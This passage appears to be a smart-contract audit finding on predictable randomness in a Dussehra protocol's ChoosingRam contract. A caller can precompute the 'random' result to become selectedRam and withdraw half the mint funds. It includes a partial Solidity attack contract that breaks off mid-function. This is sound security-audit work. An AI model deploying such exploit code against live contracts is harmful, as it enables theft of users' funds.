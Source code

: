 ## Summary
The `ChoosingRam::increaseValuesOfParticipants()` function is intended to increase the attributes of the user's `RamNFT`. When a `RamNFT` is minted, it stores the address of the minter (`RamNFT::CharacteristicsOfRam.ram`) and defaults 5 characteristics to false:
```js
Characteristics[newTokenId] = CharacteristicsOfRam({
	ram: to,
	isJitaKrodhah: false,
	isDhyutimaan: false,
	isVidvaan: false,
	isAatmavan: false,
	isSatyavaakyah: false
});
```
When all of these characteristics are set to true, `RamNFT::CharacteristicsOfRam.ram` becomes the `ChoosingRam::selectedRam`. The `ChoosingRam::selectedRam` has access to the `Dussehra::withdraw()` function. `Dussehra::withdraw()` allows the `ChoosingRam::selectedRam` to have a share of the funds derived from each entry into the protocol (`Dussehra::totalAmountGivenToRam`)

The `ChoosingRam::increaseValuesOfParticipants()` requires two `uint256` arguments
```js
function increaseValuesOfParticipants(uint256 tokenIdOfChallenger, uint256 tokenIdOfAnyPerticipent)
```

The function uses this formula to create a random number:
`uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, msg.sender))) % 2;`
- If the random number is 0, then a characteristic of `tokenIdOfChallenger`'s (`msg.sender`) `RamNFT` will be flipped to true. If a user is able to do this 5 times, then their address will be chosen as `ChoosingRam::selectedRam`. 
- If the random number is not 0, then the `RamNFT` for the second argument provided (presumably a user chosen at random) will have a characteristic switched to true

The user chosen as `ChoosingRam::selectedRam` will have access to the `Dussehra::withdraw()` function which will give 50% of the total mint funds to the user.
## Vulnerability Details
This is an example attack contract:
- The `attack` function will take two `uint256` parameters that will be passed to `ChoosingRam::increaseValuesOfParticipants()`
- A `while loop` is utilized to continuously run the `random` calculation until `random` = 0.
- When `random` = 0, the contract calls `ChoosingRam::increaseValuesOfParticipants`
```js
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {IERC721Receiver} from "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
import {IERC721} from "@openzeppelin/contracts/token/ERC721/IERC721.sol";

interface IChoosingRam {
    function increaseValuesOfParticipants(uint256, uint256) external;
}

contract AttackChoosingRam is IERC721Receiver {
    IChoosingRam immutable target;
    address private immutable owner;

    constructor(address _target) {
        target = IChoosingRam(_target);
        owner = msg.sender;
    }

    function attack(uint256 myId, uint256 dummy) public {
        bool found = false;
        uint256 random;

```